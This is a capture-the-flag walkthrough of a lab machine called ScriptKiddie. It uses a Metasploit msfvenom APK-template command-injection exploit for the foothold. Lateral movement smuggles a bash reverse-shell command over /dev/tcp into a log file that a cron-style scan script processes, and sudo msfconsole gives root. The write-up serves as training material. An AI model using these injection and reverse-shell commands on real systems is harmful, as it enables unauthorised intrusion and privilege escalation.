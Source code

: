 Target: 10.10.10.226

## Enumeration

nmap
```
$ nmap -sC -sV 10.10.10.226

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 06:11 PDT
Nmap scan report for 10.10.10.226
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.226
![](scriptkiddie1.png)

### Findings:Looking for attack vectors

The website can run nmap, msfvenom, and searchsploit.
Look for possible exploits for these three services.


## Foothold:

This module exploits a command injection vulnerability in Metasploit Framework’s msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: msfvenom -p android/ -x

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection.rb)

Metasploit
```
$ msfconsole
```

```
search msfvenom
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set LHOST tun0
run
[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

upload the file in template

![]()

openning a nc listener on port 4444
```
$ nc -lnvp 4444
```


## Lateral Movement:

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
kid@scriptkiddie:~$ id

uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

```
kid@scriptkiddie:~$ cat user.txt

<redacted>
```


## Priv Escalations:


looking for suspicious file/s
```
kid@scriptkiddie:~$ cd /home

kid@scriptkiddie:/home$ ls

pwn  kid

kid@scriptkiddie:/home$ cd pwn

kid@scriptkiddie:/home/pwn$ ls -la



kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 

#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

scanloser.sh assign /home/kid/logs/hackers to variable log then prints out its content then is piped to cut to remove the delimeter ' ' starting on the 3rd field onwards then is piped to sort to only see unique (no repeating) then is peiped to a while loop to read as ip and do a nmap scan to the ip.

openning another nc listener on port 4242
```
$ nc -lnvp 4242
```

crafting a reverse shell
```
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.56/4242 0>&1' #" >> /home/kid/logs/hackers
```

```
pwn@scriptkiddie:~$ id

uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```

```
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole
```

```
msf6 > id

uid=0(root) gid=0(root) groups=0(root)
```

```
msf6 > cat /root/root.txt

<redacted>
```
